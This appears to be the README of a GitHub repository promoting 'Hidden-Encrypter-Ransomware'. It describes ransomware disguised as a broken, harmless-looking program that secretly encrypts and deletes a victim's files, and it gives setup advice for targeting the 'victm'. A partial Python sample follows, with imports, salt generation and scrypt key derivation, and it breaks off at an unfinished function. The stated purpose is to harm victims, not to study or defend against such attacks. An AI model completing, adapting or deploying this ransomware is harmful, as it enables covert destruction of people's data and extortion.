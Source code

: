 # Hidden-Encrypter-Ransomware
A ransomware that doesn't make any gui asking for money, it just looks like a random non-working program, little do they know, it encrypts and deletes the files.

Make sure that the victm has at least one of these 
import pathlib
import secrets
import os
import base64
import getpass
import cryptography

from cryptography.fernet import Fernet
from cryptography.hazmat.primitives.kdf.scrypt import Scrypt
def generate_salt(size=16):
    """Generate the salt used for key derivation, 
    `size` is the length of the salt to generate"""
    return secrets.token_bytes(size)
def derive_key(salt, password):
    """Derive the key from the `password` using the passed `salt`"""
    kdf = Scrypt(salt=salt, length=32, n=2**14, r=8, p=1)
    return kdf.derive(password.encode())
def load_salt():

style of code (sample ^)
